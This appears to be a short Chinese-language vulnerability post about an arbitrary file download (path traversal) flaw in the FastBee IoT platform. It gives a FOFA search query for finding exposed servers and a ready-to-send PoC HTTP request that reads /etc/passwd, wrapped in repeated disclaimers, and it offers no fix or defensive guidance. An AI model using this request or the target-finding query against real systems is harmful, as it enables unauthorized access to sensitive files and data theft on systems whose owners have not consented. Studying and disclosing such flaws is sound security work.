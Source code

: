 #  蜂信物联 FastBee 物联网系统 download 文件下载漏洞  
 HK安全小屋   2025-06-08 08:56  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
蜂信物联(FastBee)物联网平台download存在任意文件下载漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。  
  
  
影响版本：  
  
FastBee 物联网系统  
  
  
FOFA:  
```
"fastbee" && icon_hash="-307138793"
```  
  
  
POC：  
```
GET /prod-api/iot/tool/download?fileName=/../../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
```  
  
成功读取到/etc/passwd文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2HtBvSXLQ3HLLvYUDp9ZdZSCQXaibd8w8u9qel0jpxZeGO68vObjLttmibicQZUCVDChHAicic0NS17fQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
